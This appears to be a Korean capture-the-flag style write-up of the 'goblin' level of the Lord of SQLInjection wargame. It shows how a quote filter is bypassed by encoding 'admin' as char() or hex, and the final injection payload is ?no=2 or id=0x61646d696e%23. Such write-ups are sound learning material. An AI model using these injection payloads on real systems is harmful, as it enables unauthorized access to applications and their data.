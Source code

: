 ```yaml
---
title: "[ Lord of SQLInjection ] goblin"
date: 2023-03-23T13:55:30.696Z
categories: ['Wargame', 'Lord of SQLInjection']
tags: ["los","web"]
---
```


![](/images/4a5fc32c-6b4d-403c-a13f-085094231eaa-image.png)

<br>
<br>

### **문제 분석**
---

1. id가 admin이면 문제를 풀 수 있다.
2. id는 guest로 고정되어 있고 우리가 입력할 수 있는 변수는 no 하나이다.
3. 쿼터를 필터링 하고 있다.

<br>
<br>

### **문제 풀이**
---

![](/images/12e6440b-1e74-462a-b15c-efcf403530d2-image.png)

no에 1을 넣어 보면 guest로 로그인 할 수 있다. 따라서 admin의 no는 0이나 2 정도로 추축해 볼 수 있다.

<br>

![](/images/f23ee0b1-8018-431d-baea-b259fdb7a407-image.png)

만약 ```?no=0 or id='admin'%23```처럼 id에 admin을 넣으면 쿼터 필터링에 잡히는 것을 볼 수 있다.

쿼터는 다음과 같은 방법으로 우회할 수 있다.

>
* id=char(97,100,109,105,110)
* id=0x61646d696e

<br>

이를 사용하면 다음과 같이 문제를 해결할 수 있다.

```sql
?no=2 or id=0x61646d696e%23
```

![](/images/f2ff5ffa-8479-4c0f-8570-9018f5cc944e-image.png)

